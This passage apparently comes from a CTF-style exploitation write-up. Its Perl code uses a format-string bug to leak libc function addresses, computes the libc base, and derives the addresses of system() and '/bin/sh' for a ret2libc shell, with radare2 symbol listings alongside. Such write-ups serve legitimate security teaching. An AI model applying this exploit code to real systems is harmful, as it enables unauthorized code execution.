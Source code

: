 ```perl
}
#[+] Address leaked: 0x0804a00c <-- Just our 4 uninterpreted bytes from our format string :)
#[+] Address leaked: 0xb75d9280 <-- printf
#[+] Address leaked: 0xb75ef810 <-- fflush
#[+] Address leaked: 0x080483d6 <-- gets
#[+] Address leaked: 0xb75efb20 <-- fgets
#[+] Address leaked: 0xb75f1650 <-- puts
#[+] Address leaked: 0x08048406 <-- __gmon_start__
#[+] Address leaked: 0xb75a5990 <-- ?
```

After correctly parsing the output into pointers, we map them (manually) to the functions they represent. We also make a mapping for the offset of certain interesting functions and strings:
```perl 
my %leaked_addresses = (
	'printf' => $addresses[1],
	'fflush' => $addresses[2],
	'gets' => $addresses[3],
	'fgets' => $addresses[4],
	'puts' => $addresses[5]
);

my %symbol_base_addr = (
	'gets' => 0x00064cd0,
	'fgets' => 0x00063b20,
	'fflush' => 0x00063810,
	'puts' => 0x00065650,
	'printf' => 0x0004d280,
	'system' => 0x00040190,
	'/bin/sh' => 0x00160a24
);

foreach(keys(%leaked_addresses)) {
	print "[-] According to $_ the base address is: " . ($leaked_addresses{$_} - $symbol_base_addr{$_}) . "\n";
}
```

We can now calculate the address where libc resides in memory. `fflush` is resolved at this point and will correctly give us the base address of libc by substracting the offset of fflush in libc to the leaked address. Having the libc address, we can now calculate the position of system() and "/bin/sh":
```perl
my $leaked_libc_base_addr = $leaked_addresses{fflush} - $symbol_base_addr{fflush};
print "[-] Leaked base address: $leaked_libc_base_addr\n";
my $system_addr = $leaked_libc_base_addr + $symbol_base_addr{system};
my $binsh_addr = $leaked_libc_base_addr + $symbol_base_addr{'/bin/sh'};
printf("[-] System() = 0x%08x, /bin/sh = 0x%08x\n", $system_addr, $binsh_addr);
# [0x00019be0]> afl~gets
# 0x0002cff0   10 204  -> 198  sym.catgets
# 0x000408e0   14 284  -> 278  sym.getsubopt
# 0x00063b20   25 374  -> 320  sym.fgets
# 0x00064cd0   25 390  -> 336  sym.gets
# 0x00069660   11 163  -> 157  sym.fgets_unlocked
# <snip>
# [0x00019be0]> afl~fflush
# 0x00063810   18 56720 -> 207  sym.fflush
# 0x00069400    3 56   -> 82   sym.fflush_unlocked
# [0x00019be0]> afl~puts
# 0x000640a0   26 349  -> 289  sym.fputs
# 0x00065650   29 446  -> 390  sym._IO_puts
# 0x00069710    8 151  -> 140  sym.fputs_unlocked
# 0x000f1050   73 1056 -> 1036 sym.putspent
# 0x000f2860   33 521  -> 514  sym.putsgent
```